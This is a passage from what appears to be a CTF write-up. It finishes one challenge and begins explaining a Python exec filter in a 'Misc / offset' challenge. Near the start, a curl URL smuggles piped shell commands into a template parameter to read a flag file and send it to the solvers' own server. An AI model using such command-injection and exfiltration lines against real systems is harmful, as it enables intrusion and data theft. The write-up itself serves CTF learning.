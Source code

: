 After finding the flag filename (which is chosen at random every time the instance is launched), we could upload to our server with the same approach:

```sh
curl "https://(the remote)/ti-84?code=1&tmpl=normal.tmpl+|+type+flag_4dfa54cf005d9fea.txt+|+curl+http://(our server):1337+-F+%22x=@-%22+"
```

(After the CTF we realised we could have also escaped the restricted Python jail as long as we avoided using any of the characters `"0123456789+*-/"`.)

`.;,;.{command_injection_in_2025?}`

## 352 Misc / offset

**Description**

somehow this exists, don't question why

**Files provided**

- [`offset.tar.gz`](files/offset.tar.gz)

**Solution**

The setup for this challenge seems simple enough:

```python
#!/usr/local/bin/python
x = input("text: ")
if all((i % 2 != j % 2)*(j % ((i % 4) + 1) == 0) for i,j in enumerate(x.encode())):
    exec(x)
```

After an easily overlooked [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)), we are prompted for a line of input which will be `exec`uted, as long as it passes this strange check. Let's degolf it a little bit.

- `for i,j in enumerate(x.encode())`: the check walks through each byte of our input string (as encoded in UTF-8), keeping the (0-based) byte offset in `i` and the byte value in `j`;
- for each byte, it checks two things:
  - `(i % 2 != j % 2)`, that is:
    - bytes at even positions must have an odd value
    - bytes at odd positions must have an even value
  - `(j % ((i % 4) + 1) == 0)`, that is:
    - bytes at position 0, 4, 8, 12, ... must have a value divisible by 1
    - bytes at position 1, 5, 9, 13, ... must have a value divisible by 2
    - bytes at position 2, 6, 10, 14, ... must have a value divisible by 3
    - bytes at position 3, 7, 11, 15, ... must have a value divisible by 4
- `(i % 2 != j % 2) * (j % ((i % 4) + 1) == 0)`: multiplying the two checks together requires *both* to hold
- `all(...)`: finally, the cheks above must hold for *all* bytes of the input

The above explanation is still hard to visualise, so it's best to visualise which characters are concretely allowed at which offsets. It suffices to only visualise positions 0, 1, 2, and 3, because the pattern repeats (`i % 2` and `i % 4`). If we stick to only ASCII characters, we get these options:
